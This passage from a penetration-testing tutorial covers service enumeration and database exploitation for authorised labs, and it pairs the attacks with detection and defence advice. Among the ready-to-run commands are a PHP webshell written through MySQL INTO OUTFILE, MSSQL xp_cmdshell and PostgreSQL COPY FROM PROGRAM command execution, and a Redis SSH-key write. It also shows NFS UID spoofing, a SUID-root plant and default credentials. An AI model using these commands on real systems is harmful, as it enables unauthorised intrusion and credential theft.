```bash
sudo apt install -y default-mysql-client

# Try root with no password (astonishingly common on dev boxes)
mysql -h 10.10.10.5 -u root

# With a password
mysql -h 10.10.10.5 -u root -p'password123'
```

- `-h` — host, `-u` — user, `-p` — password (**no space** between `-p` and the password; a space makes it prompt).

Nmap primes this fast:

```bash
nmap -p 3306 --script "mysql-info,mysql-empty-password,mysql-users,mysql-databases,mysql-variables" 10.10.10.5
```

`mysql-empty-password` literally checks whether root (and other users) have a blank password.

**Enumerating once in:**

```sql
SELECT version();                       -- server version
SELECT current_user();                  -- who am I
SHOW DATABASES;                         -- all databases
SELECT user, host, authentication_string FROM mysql.user;  -- password hashes
USE corp_app; SHOW TABLES; SELECT * FROM users LIMIT 5;
```

**File read and write — the dangerous features:**

```sql
-- Read a server-side file (needs FILE privilege + secure_file_priv not restricting)
SELECT LOAD_FILE('/etc/passwd');

-- Write a webshell into the webroot (needs FILE priv and a writable web dir)
SELECT '<?php system($_GET["c"]); ?>' INTO OUTFILE '/var/www/html/s.php';
```

`LOAD_FILE` and `INTO OUTFILE` require the `FILE` privilege and are gated by `secure_file_priv` (check with `SELECT @@secure_file_priv;` — an empty value means unrestricted). Where enabled, they turn DB access into arbitrary file read/write, and `INTO OUTFILE` to the webroot is a classic path to RCE.

### 5.2 Microsoft SQL Server — port 1433

MSSQL is the crown jewel on Windows networks because of `xp_cmdshell` — a built-in stored procedure that runs OS commands as the SQL Server service account.

**Connecting.** Impacket's `mssqlclient.py` is the tester's tool of choice because it speaks Windows/NTLM auth cleanly:

```bash
pip install impacket   # provides mssqlclient.py

# SQL auth (sa is the built-in admin)
mssqlclient.py sa:'Password1'@10.10.10.5

# Windows auth with a domain account
mssqlclient.py corp.local/svc_sql:'Winter2024!'@10.10.10.5 -windows-auth
```

- `-windows-auth` — use Windows (NTLM) authentication instead of SQL logins.

Nmap:

```bash
nmap -p 1433 --script "ms-sql-info,ms-sql-empty-password,ms-sql-ntlm-info,ms-sql-config" 10.10.10.5
```

**Enumerating and the xp_cmdshell path.** Inside the `mssqlclient.py` shell:

```sql
SELECT @@version;                 -- version & OS
SELECT name FROM sys.databases;   -- all databases
SELECT name FROM sys.syslogins;   -- SQL logins
SELECT IS_SRVROLEMEMBER('sysadmin');  -- am I sysadmin? (1 = yes)
```

If you are sysadmin (or can impersonate one), enable and run OS commands:

```sql
EXEC sp_configure 'show advanced options', 1; RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1; RECONFIGURE;
EXEC xp_cmdshell 'whoami';
```

`mssqlclient.py` even provides shortcut commands: `enable_xp_cmdshell` then `xp_cmdshell whoami`. The command runs as the SQL Server service account — frequently a domain service account, which is why this so often leads straight to lateral movement.

**Linked servers** are a second MSSQL superpower: `SELECT * FROM master..sysservers;` reveals other SQL servers this one trusts, and `EXECUTE ... AT [LINKEDSRV]` can chain command execution across them.

### 5.3 PostgreSQL — port 5432

**Connecting.** The client is `psql`:

```bash
sudo apt install -y postgresql-client

# 'postgres' superuser, often 'trust'-authed (no password) on localhost/dev
psql -h 10.10.10.5 -U postgres
# or with password via env var
PGPASSWORD='postgres' psql -h 10.10.10.5 -U postgres -d postgres
```

- `-U` — user, `-d` — database, `-h` — host. `PGPASSWORD` env var supplies the password non-interactively.

**Enumerating:**

```sql
SELECT version();
\l                                -- list databases (psql meta-command)
\du                               -- list roles/users
\c corp_app                       -- connect to a database
\dt                               -- list tables
SELECT * FROM users LIMIT 5;
```

**Code execution — `COPY ... FROM PROGRAM`.** PostgreSQL superusers (version 9.3 and later) can run OS commands:

```sql
CREATE TABLE cmd_out(line text);
COPY cmd_out FROM PROGRAM 'id';
SELECT * FROM cmd_out;
-- uid=105(postgres) gid=112(postgres) groups=112(postgres)
```

File read for any superuser:

```sql
CREATE TABLE f(t text); COPY f FROM '/etc/passwd'; SELECT * FROM f;
```

### 5.4 Oracle TNS — port 1521

Oracle is the fiddliest. Clients talk to the **TNS listener** on 1521, and you must know the **SID** (System Identifier) or **service name** of the database instance to connect.

**Enumerate the listener with tnscmd10g:**

```bash
sudo apt install -y tnscmd10g
tnscmd10g version -h 10.10.10.5
tnscmd10g status -h 10.10.10.5    # may leak SID, version, and even config
```

Nmap and the specialist tool **ODAT** (Oracle Database Attacking Tool) do the heavy lifting:

```bash
# Brute-force the SID
nmap -p 1521 --script "oracle-sid-brute" 10.10.10.5

# ODAT: all checks including default creds against a known SID
odat all -s 10.10.10.5 -p 1521 -d XE
```

Default account/password pairs that still land (`system/manager`, `sys/change_on_install`, `scott/tiger`, `dbsnmp/dbsnmp`) are Oracle's legacy gift to testers. With `sysdba` you can read files and, via Java stored procedures or `DBMS_SCHEDULER`, run OS commands.

### 5.5 MongoDB — port 27017

MongoDB's original sin: for years it shipped **with no authentication and bound to all interfaces by default**, leading to tens of thousands of internet-exposed databases.

```bash
sudo apt install -y mongodb-clients   # provides 'mongo' / use 'mongosh' on newer

mongo 10.10.10.5:27017
# or newer shell:
mongosh mongodb://10.10.10.5:27017
```

Enumerate — no auth needed if it's the default config:

```javascript
show dbs                 // list databases
use corp_app             // select one
show collections         // list collections (tables)
db.users.find().pretty() // dump a collection
db.users.find({}, {username:1, passwordHash:1})  // just creds
```

Nmap: `nmap -p 27017 --script "mongodb-info,mongodb-databases" 10.10.10.5`.

### 5.6 Redis — port 6379

Redis is an in-memory key-value store that, like MongoDB, historically ran **unauthenticated by default** — and it has a devastating unauthenticated-to-RCE path.

```bash
sudo apt install -y redis-tools

redis-cli -h 10.10.10.5
10.10.10.5:6379> INFO          # server info; if this works, no auth
10.10.10.5:6379> CONFIG GET dir
10.10.10.5:6379> KEYS *        # all keys (loud on big instances)
```

**Unauth RCE via CONFIG SET.** Because Redis can write its dataset to any path, an unauthenticated attacker can write arbitrary files — an SSH `authorized_keys`, a cron job, or a webshell:

```bash
# Write your SSH key into the redis user's authorized_keys
redis-cli -h 10.10.10.5 CONFIG SET dir /var/lib/redis/.ssh/
redis-cli -h 10.10.10.5 CONFIG SET dbfilename authorized_keys
redis-cli -h 10.10.10.5 -x SET k < id_rsa.pub    # padded pubkey
redis-cli -h 10.10.10.5 SAVE                       # flush to disk -> key written
ssh -i id_rsa redis@10.10.10.5
```

If the target webroot is writable by the Redis user, the same trick writes a PHP webshell instead. Modern Redis ships with `protected-mode yes` which blocks this from remote unless a password or bind is configured — but plenty of legacy and containerised deployments have it disabled.

**Bug bounty relevance:** exposed Redis/MongoDB with no auth are recurring findings on external bug-bounty programs (often via `CONFIG GET`/`INFO` fingerprinting on non-standard ports) and are high-severity when confirmed.

---

## Part 6: Hands-On Lab — Full Enumeration of a Multi-Service Host

This lab ties the whole chapter together against a single authorised lab target, `10.10.10.5`, which runs SNMP, LDAP, NFS and several databases. Every command is real and reproducible against a similar lab (e.g. a HackTheBox/TryHackMe box or a VM you built for this). **Only run this against systems you own or are explicitly authorised to test.**

### Step 0 — Baseline scan

```bash
# TCP + top UDP, service detection
sudo nmap -sS -sV -p 111,389,636,1433,1521,2049,3306,3268,5432,6379,27017 10.10.10.5 -oN tcp.txt
sudo nmap -sU -sV -p 161 10.10.10.5 -oN udp.txt
```

Result (trimmed):

```
111/tcp    open  rpcbind    2-4 (RPC #100000)
389/tcp    open  ldap       Microsoft Windows AD LDAP
1433/tcp   open  ms-sql-s   Microsoft SQL Server 2019
2049/tcp   open  nfs        3-4 (RPC #100003)
3306/tcp   open  mysql      MySQL 8.0.32
6379/tcp   open  redis      Redis 6.0.16
161/udp    open  snmp       SNMPv1 server; public
```

Six of our targets are live. Work them in order of expected yield.

### Step 1 — SNMP

```bash
onesixtyone 10.10.10.5 public private
snmp-check -c public -v 2c 10.10.10.5 | tee snmp.txt
snmpwalk -v2c -c public 10.10.10.5 1.3.6.1.4.1.77.1.2.25   # Windows users
```

Findings: hostname `DBSRV01`, `svc_backup` and `Administrator` local users, and a running `sqlservr.exe` process — confirming the MSSQL we saw on 1433.

### Step 2 — LDAP

```bash
# RootDSE for the base DN
ldapsearch -x -H ldap://10.10.10.5 -s base -b "" defaultNamingContext
# -> DC=corp,DC=local

# Anonymous user dump
ldapsearch -x -H ldap://10.10.10.5 -b "DC=corp,DC=local" \
  "(&(objectClass=user)(objectCategory=person))" sAMAccountName description | tee ldap.txt
```

Finding: `svc_sql` with `description: SQL service acct - Winter2024!`. That is a live credential.

### Step 3 — Validate the credential against MSSQL

```bash
mssqlclient.py corp.local/svc_sql:'Winter2024!'@10.10.10.5 -windows-auth
```

```
SQL> SELECT IS_SRVROLEMEMBER('sysadmin');
1
SQL> enable_xp_cmdshell
SQL> xp_cmdshell whoami
corp\svc_sql
```

Sysadmin + `xp_cmdshell` = command execution on the host as `corp\svc_sql`. The LDAP-leaked password and the MSSQL feature chained into RCE.

### Step 4 — NFS

```bash
showmount -e 10.10.10.5
# /export/home  *
sudo mount -t nfs -o vers=3,nolock 10.10.10.5:/export/home /mnt/t
ls -lan /mnt/t
# drwx------ 2 1001 1001 ... jsmith  (contains .ssh/id_rsa)
sudo useradd -u 1001 spoof && sudo -u spoof cat /mnt/t/jsmith/.ssh/id_rsa
```

UID-spoofed read of `jsmith`'s SSH private key — a second, independent foothold.

### Step 5 — Redis

```bash
redis-cli -h 10.10.10.5 INFO server   # responds = no auth
redis-cli -h 10.10.10.5 CONFIG GET dir
```

Unauthenticated. In a real lab you would confirm write access and (with authorisation) demonstrate the `CONFIG SET` file-write path; here we stop at confirming the misconfiguration and documenting it.

### Lab summary

From a single host we obtained, without any exploit: the OS and service inventory (SNMP), a plaintext service-account password (LDAP), sysadmin command execution (MSSQL), a user's SSH key (NFS), and an unauthenticated data store (Redis). Each finding is independently reportable, and together they demonstrate complete host compromise via misconfiguration alone.

---

## Part 7: Putting It Together — An Enumeration Decision Tree



The unifying workflow: **fingerprint → attempt the cheapest access (anon/default/blank) → enumerate → extract creds and data → feed those creds back into the rest of the engagement.** Credentials found in one service (an LDAP description, an SNMP-leaked account, a config in an NFS share) unlock the next.

---

## Part 8: Detection & Defense Angle

Everything above is loud if defenders are watching. Here is the consolidated blue-team view — how each attack looks from the defender's side and how to shut it down.

### SNMP

- **Detect:** SNMP GET/walk traffic on UDP 161 from unexpected sources; a full MIB walk generates a burst of GETNEXT/GETBULK. Monitor for failed community-string attempts (many devices log these) and for `onesixtyone`-style rapid probing.
- **Defend:** disable SNMP if unused. If required, use **SNMPv3 with authPriv** (SHA auth + AES privacy) and abolish v1/v2c. Never leave `public`/`private`. Restrict agent access to specific NMS source IPs via ACLs. Make community strings long and random.

### LDAP

- **Detect:** anonymous binds followed by a subtree search of the whole domain; Directory Service events and, with expensive/inefficient-search auditing on, Event **ID 1644**. A single source enumerating thousands of user objects is the signature.
- **Defend:** disable anonymous binds (`dsHeuristics` on AD; `-x` binds should return nothing useful). Require LDAPS (636) and enforce LDAP signing/channel binding. Never store secrets in the `description`, `info`, or `comment` attributes — audit for them proactively.

### NFS

- **Detect:** unexpected `MOUNT` requests, mounts from IPs outside the intended client set, root-owned file creation on exports.
- **Defend:** export only to specific hosts/subnets, never `*`. Always use **`root_squash`** (the default — never set `no_root_squash`). Add `all_squash` for public shares. Prefer **NFSv4 with Kerberos (sec=krb5p)** which adds real authentication and encryption. Mount options `nosuid,noexec` on the server side blunt the SUID-binary escalation.

### Databases

| DB | Detect | Defend |
|----|--------|--------|
| MySQL | Logins from unexpected hosts; `INTO OUTFILE`/`LOAD_FILE` usage | Remove blank/`root` remote logins; set `secure_file_priv`; bind to localhost |
| MSSQL | `sp_configure 'xp_cmdshell'`, advanced-options changes, `xp_cmdshell` in audit logs | Keep `xp_cmdshell` disabled; least-privilege service account; strong `sa` or disable SQL auth |
| PostgreSQL | `COPY ... FROM PROGRAM`, superuser logins from remote | `trust` only for local sockets; least-priv roles; `listen_addresses` locked down |
| Oracle | TNS `status` probes, SID brute forcing, default-account logins | Change all default passwords; enable Valid Node Checking; patch the listener |
| MongoDB | Connections to 27017 from outside; `find()` on every collection | Enable auth (`--auth`); bind to internal interface; enable RBAC |
| Redis | `CONFIG GET/SET`, `INFO` from remote, unexpected `SAVE`/`BGSAVE` | Require `requirepass`/ACLs; keep `protected-mode yes`; bind to localhost; rename dangerous commands (`rename-command CONFIG ""`) |

The single most valuable defensive control across all four families is **network segmentation** — none of these management/data services should be reachable from a user VLAN or the internet. The second is **killing default trust**: no default community strings, no anonymous binds, no `no_root_squash`, no blank DB passwords.

---

## Part 9: Common Pitfalls

- **Forgetting UDP for SNMP.** A TCP-only scan never shows port 161. If you didn't `-sU`, you didn't look for SNMP.
- **Giving up after one community string.** Try `public`, `private`, `manager`, `cisco`, the org name, and a wordlist. RW strings (`private`) are the real prize.
- **Not pulling the RootDSE first on LDAP.** Guessing the base DN wastes time; the RootDSE hands it to you anonymously.
- **Ignoring the `description` field.** LDAP/AD descriptions are the single most common place to find a leaked password. Always request that attribute.
- **NFS: using `ls -l` instead of `ls -lan`.** You need the *numeric* UID/GID to know which local UID to spoof; names get mapped and mislead you.
- **`mysql -p password` with a space.** The space makes `mysql` treat `password` as a database name and prompt for a password. Always `-p'password'` with no space.
- **Assuming Redis/Mongo need creds.** Test unauthenticated first — the whole point is that the default was no auth.
- **Being loud without noting it.** Full SNMP walks, whole-domain LDAP dumps and mass DB queries are alertable. On a stealth engagement, throttle and target.

---

## Part 10: Final Revision / Summary

- **SNMP (UDP 161)** speaks a plaintext community string in v1/v2c. `public`/`private` are the defaults. `onesixtyone`/`braa` find the string; `snmpwalk`/`snmp-check` read the whole device — interfaces, routes, ARP, processes, installed software, and on Windows the local users and shares. An **RW** string can reconfigure the device.
- **LDAP (389/636/3268)** is the directory. Pull the **RootDSE** anonymously for the base DN, then test an **anonymous bind**; `ldapsearch` dumps users, groups and the priceless `description` field (passwords live there). Filter `servicePrincipalName=*` finds Kerberoastable accounts.
- **NFS (111/2049)** trusts the client's asserted UID. `showmount -e` lists exports; mount them; **UID-spoof** to read owned files and abuse **`no_root_squash`** by planting a SUID-root binary for instant local root.
- **Databases** fall to default/blank/no credentials, then to dangerous features: MySQL `LOAD_FILE`/`INTO OUTFILE`, MSSQL **`xp_cmdshell`**, PostgreSQL **`COPY FROM PROGRAM`**, Oracle default SIDs + ODAT, MongoDB/Redis unauthenticated access, and Redis **`CONFIG SET`** file-write → RCE.
- **The through-line:** attempt the cheapest access first, enumerate, extract credentials, and feed them back into the engagement. Defenders win by segmenting these services off user/internet networks and killing every default trust setting.

---

## Part 11: Cheat Sheet / Quick Reference

```bash
# ---------- SNMP (UDP 161) ----------
onesixtyone -c strings.txt -i targets.txt          # brute community strings
snmpwalk -v2c -c public TARGET                     # walk whole tree
snmpbulkwalk -v2c -c public -Cr50 TARGET           # faster full walk
snmp-check -c public -v 2c TARGET                  # readable one-shot report
snmpwalk -v2c -c public TARGET 1.3.6.1.4.1.77.1.2.25   # Windows users
braa public@TARGET:.1.3.6.1.2.1.1.1.0              # one OID, many hosts

# ---------- LDAP (389/636/3268) ----------
ldapsearch -x -H ldap://TARGET -s base -b "" defaultNamingContext   # base DN
ldapsearch -x -H ldap://TARGET -b "DC=corp,DC=local" \
  "(&(objectClass=user)(objectCategory=person))" sAMAccountName description
ldapsearch -x -H ldap://TARGET -D 'user@corp.local' -w 'PASS' \
  -b "DC=corp,DC=local" "(servicePrincipalName=*)" sAMAccountName  # kerberoastable
python3 windapsearch.py -d corp.local --dc-ip TARGET -U            # user dump

# ---------- NFS (111/2049) ----------
showmount -e TARGET                                # list exports
rpcinfo -p TARGET                                  # RPC services
sudo mount -t nfs -o vers=3,nolock TARGET:/exp /mnt/t
sudo useradd -u 1005 spoof && sudo -u spoof cat /mnt/t/file   # UID spoof
# no_root_squash: gcc suid.c -o /mnt/t/x; chown root /mnt/t/x; chmod 4755 /mnt/t/x

# ---------- Databases ----------
mysql -h TARGET -u root                             # MySQL blank root
#   SELECT LOAD_FILE('/etc/passwd'); ... INTO OUTFILE '/var/www/html/s.php';
mssqlclient.py corp.local/user:'PASS'@TARGET -windows-auth   # MSSQL
#   enable_xp_cmdshell ; xp_cmdshell whoami
PGPASSWORD=postgres psql -h TARGET -U postgres      # PostgreSQL
#   COPY t FROM PROGRAM 'id';
tnscmd10g status -h TARGET                          # Oracle listener
odat all -s TARGET -d XE                            # Oracle default-cred sweep
mongosh mongodb://TARGET:27017                      # MongoDB (show dbs)
redis-cli -h TARGET INFO                            # Redis (no-auth test)
```

**Port memory table:**

| Service | Port(s) | Transport | First move |
|---------|---------|-----------|-----------|
| SNMP | 161 (162 traps) | UDP | brute community -> snmpwalk |
| LDAP / LDAPS / GC | 389 / 636 / 3268 | TCP | RootDSE -> anon bind |
| NFS | 2049 (+111 rpcbind) | TCP/UDP | showmount -e |
| MySQL | 3306 | TCP | root blank |
| MSSQL | 1433 | TCP | sa/win-auth -> xp_cmdshell |
| PostgreSQL | 5432 | TCP | postgres trust -> COPY FROM PROGRAM |
| Oracle TNS | 1521 | TCP | SID brute -> ODAT |
| MongoDB | 27017 | TCP | no-auth dump |
| Redis | 6379 | TCP | no-auth -> CONFIG SET |

---

## Part 12: Practice Labs & Resources

Train each skill on labs that actually exercise it:

- **SNMP:** TryHackMe *"Enumeration"* and *"Network Services 2"* rooms cover SNMP community strings and `snmpwalk` end to end. HackTheBox *SolidState* and *Sneaky* touch SNMP recon.
- **LDAP:** HackTheBox *Forest* and *Sauna* (anonymous/AS-REP paths begin with LDAP user enumeration), and the *"Active Directory Basics"* / *"Enumerating Active Directory"* TryHackMe rooms. Practise `ldapsearch` filters against a local Samba AD-DC or the *GOAD* (Game of Active Directory) lab.
- **NFS:** TryHackMe *"Network Services 2"* has a dedicated NFS task including the `no_root_squash` escalation. HackTheBox *Poison* and many VulnHub boxes ship a mountable export with a UID-spoofable file.
- **MySQL/MSSQL/PostgreSQL:** HackTheBox *Giddy*, *Querier* and MSSQL-themed boxes for `xp_cmdshell`; PortSwigger's SQL-injection labs for the query side; TryHackMe *"SQL Injection"* and *"Relevant"* for MSSQL. Practise PostgreSQL `COPY FROM PROGRAM` on a local container.
- **Redis/MongoDB:** HackTheBox *Postman* is the canonical unauthenticated-Redis-to-RCE box (`CONFIG SET` SSH-key write). Spin up a default `redis:6` and `mongo` Docker container locally to rehearse the enumeration safely.
- **Reference reading:** HackTricks' service-enumeration pages (161, 389, 2049, 1433, 6379) are the best quick-reference for OIDs, filters and one-liners; the Net-SNMP, OpenLDAP `ldapsearch`, and Impacket docs for authoritative flag details.

Work each service on at least one dedicated box until the "find -> cheapest access -> enumerate -> extract creds" loop is muscle memory. The next chapter moves from enumerating these services to **vulnerability assessment** — turning the service and version inventory you've built into a prioritised list of exploitable weaknesses with CVE, CVSS and CWE as the common language.
